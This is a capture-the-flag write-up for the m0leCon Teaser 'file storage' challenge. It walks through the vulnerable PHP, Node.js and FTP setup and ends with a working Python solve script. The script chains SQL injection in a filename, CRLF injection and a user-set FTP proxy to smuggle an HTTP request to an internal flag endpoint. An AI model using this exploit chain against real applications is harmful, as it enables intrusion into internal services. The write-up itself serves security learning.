 ```yaml
---

title: "nday: file storage - m0leCon Teaser CTF"
date: 11 September 2024
category: CRLF,SQLI
ctf: m0leCon Teaser CTF

---
```


This challenge is from the `m0leCon Teaser CTF`. It was an interesting but relatively easy challenge, so the write-up will be brief. The objective was to exploit `SQL Injection` (SQLi) and `CRLF` (Carriage Return Line Feed) vulnerabilities to retrieve the flag from an internal server. Two services were running: an FTP server and a Node.js application, alongside a PHP server running on Nginx.

---

## Services

### FTP
```dockerfile
COPY vsftpd.conf /etc/vsftpd/vsftpd.conf
```

The FTP service uses [`vsftpd`](https://en.wikipedia.org/wiki/Vsftpd), a popular FTP server for Linux.

### Node.js

```javascript
app.post("/flag", (req, res) => {
  if (!!req.headers["x-get-flag"]) {
    res.send(process.env.FLAG || "ptm{REDACTED}");
  } else {
    res.send("nope");
  }
});
```

Our goal is to send a POST request to the Node.js application with an `x-get-flag` header. In addition, there is another route, `/create-user`, which creates a new user.

### PHP

- You can sign up by completing a Proof of Work (PoW).
- You can upload and download files.

#### *The server connects to the FTP service using `fopen`*:

```php
$ftp = @fopen("ftp://{$_SESSION['user']}:{$_SESSION['password']}@ftp/$filename", 'r', false, $context);
```

This retrieves the file and sends it as a response.

---

## Vulnerabilities

### SQLi
#### In `php/www/components/file_manager.php`:

```php
$stmt = $database->prepare("INSERT INTO files (owner, filename, size) VALUES (:owner, '$filename', :size)");
```

Here, the application directly incorporates user-specified values into the SQL query, allowing us to inject in filename.

### CRLF
#### In the same file, there is a CRLF injection vulnerability:

```php
header('Content-Disposition: attachment; filename="' . urlencode($filename) . '"');
```

The same `filename` parameter introduces another vulnerability, allowing us to exploit CRLF injection.

---

## Exploit

```php
// @/php/www/components/file_manager.php
$opts = ['ftp' => $_SESSION['settings']];
$context = stream_context_create($opts);

// @/php/www/components/index.php
if (isset($_POST['settings'])) {
    $data = json_decode($_POST['settings'], true);
    if (!is_array($data)) {
        die;
    }
    $_SESSION['settings'] = $data;
}
```

The application uses session settings to create a stream context, which is user-controlled. PHP's FTP stream context allows a [`proxy`](https://www.php.net/manual/en/context.ftp.php) to be passed. By using this, we can send an HTTP request via CRLF injection.

---

### Solve Script
#### **Here is my solve script:**

```python
import requests
import urllib

url = "http://localhost:8080"
name = "x HTTP/1.1\r\nHost: ftp\r\n\r\n\r\nPOST /flag HTTP/1.1\r\nx-get-flag:"
data = f"'||(SELECT x'{name.encode().hex()}')||'"

file = {'file': (data, "")}
sess = {"PHPSESSID": "21n3bc7elm25b7r7lml2r7neq1"}

if requests.post(url, files=file, cookies=sess).status_code == 200:
    conf = {'settings': '{"proxy": "tcp://ftp:3000"}'}
    if requests.post(url, data=conf, cookies=sess).status_code == 200:
        res = requests.get(url + f"?filename={urllib.parse.quote(name)}", cookies=sess)
        print(f"Flag: {res.content}")
else:
    print("Failed!")
```

---